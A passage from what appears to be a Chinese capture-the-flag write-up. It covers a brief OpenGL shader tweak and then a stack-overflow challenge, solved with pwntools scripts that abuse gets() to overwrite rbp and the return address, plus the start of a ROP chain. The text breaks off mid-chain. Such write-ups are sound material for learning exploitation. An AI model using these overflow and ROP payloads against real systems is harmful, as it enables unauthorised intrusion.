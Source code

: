## 超简陋的 OpenGL 小程序

各种尝试魔改两个 basic_lighting 文件里的参数，最后试出来一个：

```glsl
gl_Position = vec4(aPos[0], aPos[1], aPos[2] * 4, 1);
```

（然而也不知道为啥这就能显示出 flag）

## 生活在博弈树上

题目输出操作时使用了 gets，可以栈溢出，具体介绍可以查看 ctf wiki。

第一问，可以 ret 到赢的位置去。

```python
from pwn import *

context.log_level='debug'

r=remote('202.38.93.111',10141)
r.recvuntil('Please input your token: ')
r.send('xxx:xxx\n')

target=0x402527
rbp=0x4a8320
payload=b'a'*0x90+p64(rbp)+p64(target)

def send(x):
	r.recvuntil('Your turn. Input like (x,y), such as (0,1): ')
	r.send(x+b'\n')

send(payload)
send(b'(0,1)')
send(b'(0,2)')
send(b'(1,2)')
r.interactive()
```

第二问，构造一个 rop 链。由于不知道栈地址，可以先重入 main，并且把栈地址（rbp）改成 bss 上的地址。

```python
from pwn import *

context.log_level='debug'

r=remote('202.38.93.111',10141)
r.recvuntil('Please input your token: ')
r.send('xxx:xxx\n')

target=0x4023fc
rbp=0x4a8320
payload=b'a'*0x90+p64(rbp)+p64(target)

def send(x):
	r.recvuntil('Your turn. Input like (x,y), such as (0,1): ')
	r.send(x+b'\n')

send(payload)
send(b'(0,1)')
send(b'(0,2)')
send(b'(1,2)')

rop=[
	0x4017b6,0x4a8297,
```